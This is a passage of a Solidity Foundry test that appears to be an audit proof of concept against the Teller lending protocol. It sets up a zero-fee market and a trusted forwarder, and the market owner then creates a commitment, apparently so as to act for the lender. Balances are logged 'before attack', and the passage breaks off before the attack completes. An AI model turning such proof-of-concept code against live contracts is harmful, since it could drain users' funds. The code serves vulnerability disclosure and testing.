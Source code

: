 ```solidity
        );
    }

    function testLive() public {

        console.log("===========================BEFORE  attack=============================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("attacker ERC20 balance:          ",lendingToken.balanceOf(address(attacker)));
        
        vm.startPrank(address(marketOwner));
        marketRegistry.createMarket(
            address(marketOwner),
            30 days,  //_paymentCycleDuration
            1 days,       //_paymentDefaultDuration 
            1 days,   //_bidExpirationTime
            0,        //feePercent  <<==Fee is 0
            false,    //lenderAttest
            false,    //borrowerAttest
            "mytestURI"
        );
        tellerV2.setTrustedMarketForwarder(1,address(lenderCommitmentForwarderFake));
        vm.stopPrank();

        vm.prank(address(marketOwner));
        tellerV2.setTrustedMarketForwarder(1,address(lenderCommitmentForwarderFake));
        
        vm.prank(address(borrower));
        tellerV2.approveMarketForwarder(1,address(lenderCommitmentForwarderFake));

        vm.prank(address(lender));
        tellerV2.approveMarketForwarder(1,address(lenderCommitmentForwarderFake));

        LenderCommitmentForwarderFake.Commitment memory commitment = LenderCommitmentForwarderFake.Commitment({
            maxPrincipal: 100e18,
            expiration: 100_000,
            maxDuration: 365 days,
            minInterestRate: 0,
            collateralTokenAddress: address(lendingToken),
            collateralTokenId: 0,
            maxPrincipalPerCollateralAmount: 0,
            collateralTokenType: LenderCommitmentForwarderFake.CommitmentCollateralType.NONE,
            lender: address(lender),
            marketId: 1,
            principalTokenAddress: address(lendingToken)
        });
        
        address[] memory borrowersWL = new address[](1);
        borrowersWL[0] = address(borrower);

        vm.prank(address(lender));
        lenderCommitmentForwarderFake.createCommitment(commitment, borrowersWL);

        vm.startPrank(address(marketOwner));
        LenderCommitmentForwarderFake.Commitment memory commitment2 = LenderCommitmentForwarderFake.Commitment({
            maxPrincipal: 100e18,
            expiration: 100_000,
            maxDuration: 365 days,
            minInterestRate: 0,
            collateralTokenAddress: address(lendingToken),
```